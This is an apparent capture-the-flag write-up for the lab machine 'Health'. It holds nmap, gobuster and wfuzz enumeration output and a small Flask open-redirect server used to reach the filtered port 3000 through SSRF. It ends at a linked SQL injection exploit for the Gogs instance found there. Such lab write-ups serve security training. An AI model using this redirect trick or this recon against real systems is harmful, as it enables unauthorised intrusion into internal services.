


# Health
## Enumeration
- `nmap`
  - `Note`: I missed filtered port `3000`
  - `nmap` behaves weirdly when using `--min-rate`, thus run it without that flag too
```
└─$ nmap -Pn -p- 10.10.11.176 --min-rate 1000              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:01 GMT
Warning: 10.10.11.176 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.17s latency).
Not shown: 60437 closed tcp ports (conn-refused), 5096 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 142.48 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.176 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 18:04 GMT
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.70 seconds

```
```
└─$ nmap -Pn -sC -sV 10.10.11.176 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 16:26 GMT
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 16:27 (0:00:00 remaining)
Nmap scan report for health.htb (10.10.11.176)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.26 seconds
```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://health.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x txt,html,php --no-error -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://health.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/.html.html           (Status: 403) [Size: 275]
/.html.txt            (Status: 403) [Size: 275]
/.html.php            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 7354]
/js                   (Status: 301) [Size: 305] [--> http://health.htb/js/]
/css                  (Status: 301) [Size: 306] [--> http://health.htb/css/]
/.htm                 (Status: 403) [Size: 275]
/.htm.txt             (Status: 403) [Size: 275]
/.htm.html            (Status: 403) [Size: 275]
/.htm.php             (Status: 403) [Size: 275]
/javascript           (Status: 301) [Size: 313] [--> http://health.htb/javascript/]

```

- `vhosts`
```
└─$ wfuzz -u http://health.htb/ -H 'Host: FUZZ.health.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 620
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://health.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000689:   400        10 L     35 W       301 Ch      "gc._msdcs"
```

## Foothold
- I set my ip on both `url` links
  - Both urls are requested


- I'll listen with `nc`


- I'll try to host `Monitored URL` via `python` and listen to `Payload URL` on `nc`



- If try entering `localhost`, it returns error
  - The reason was to check if I could perform `SSRF` on port `3000` which is filtered
  - We can launch some `flask` app which will try to redirect to port `3000` and see if it works
```
from flask import Flask, redirect, request

app = Flask(__name__)


@app.route("/", methods=["GET"])
def r():
    url = request.args.get("url")
    return redirect(url, code=302)


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)
```
```
└─$ python3 app.py                                                                                                                
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.0.2.15:80
<SNIP>
```

- We succesfully performed `SSRF`


- Let's test it on port `3000`



- It's a `GoGits Version: 0.5.5.1010 Beta`
  - There is `sqli` in that specific version
    - https://www.exploit-db.com/exploits/35238
  - 